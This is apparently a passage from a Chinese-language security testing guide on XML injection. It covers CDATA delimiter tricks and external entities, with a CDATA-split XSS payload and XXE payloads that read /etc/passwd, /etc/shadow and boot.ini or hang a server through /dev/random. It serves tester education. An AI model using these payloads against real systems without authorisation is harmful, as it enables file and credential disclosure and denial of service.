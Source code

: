 ##### ```CDATA```节分隔符

```<!\[CDATA\[/]]>```。CDATA节用于转义包含不想被识别为标记的字符串组成的块。包含在CDATA 节中的字符不会被XML解析。
  
例如：需要表达字符串```<foo>```时，可以使用下列形式：
```
<node>
    <![CDATA[<foo>]]>
</node>
```

所以，```<foo>```不会被解析为标签。如果一个节点以下列形式构建：
```<username><![CDATA[<$userName]]></username>```

那测试人员可以尝试注入一个CDATA结尾字符串```]]>```，使XML无效。例如```<username><![CDATA[]]>]]></username>```，这不是一个形式完整的XML片段。

有关CDATA标记的另一项测试，可用于XML文档被处理生成一个HTML页面时。此时CDATA 节分隔符可能简单的删去，不用检查它的内容。这样可能注入HTML标记，这个标记包含在生成的页面中，完全绕过了xml清洗机制。

下面的示例显示了一个含有一些文本的节点，它将回显给用户：
```
<html>
    $HTMLCode
</html>
```
然后，攻击者会给出下列的输入：
```$HTMLCode = <![CDATA[<]]>script<![CDATA[>]]>alert('xss')<![CDATA[<]]>/script<![CDATA[>]]>```
后台xml解析时会把CDATA节去掉，生成下列HTML代码：
```
<script>
    alert('XSS')
</script>
```
这类似于XSS攻击。

##### 外部实体

可以通过定义新实体来扩展有效实体集。如果实体的定义是URI，则该实体称为外部实体。

除非配置为其他方式，否则外部实体将强制XML解析器访问URI指定的资源，例如，本地计算机或远程系统上的文件。此行为使应用程序受到XML eXternal Entity（XXE）攻击，该攻击可用于执行本地系统的拒绝服务，未经授权访问本地计算机上的文件，扫描远程计算机以及执行远程系统的拒绝服务。 。

要测试XXE漏洞，可以使用以下输入：
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE foo [ <!ELEMENT foo ANY >
        <!ENTITY xxe SYSTEM "file:///dev/random" >]>
        <foo>&xxe;</foo>
```

如果XML解析器尝试将实体替换为```/dev/random```文件的内容，则此测试可能会使Web服务器（在UNIX系统上）崩溃。

其他有用的测试如下：
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE foo [ <!ELEMENT foo ANY >
        <!ENTITY xxe SYSTEM "file:///etc/passwd" >]><foo>&xxe;</foo>

<?xml version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE foo [ <!ELEMENT foo ANY >
        <!ENTITY xxe SYSTEM "file:///etc/shadow" >]><foo>&xxe;</foo>

<?xml version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE foo [ <!ELEMENT foo ANY >
        <!ENTITY xxe SYSTEM "file:///c:/boot.ini" >]><foo>&xxe;</foo>

```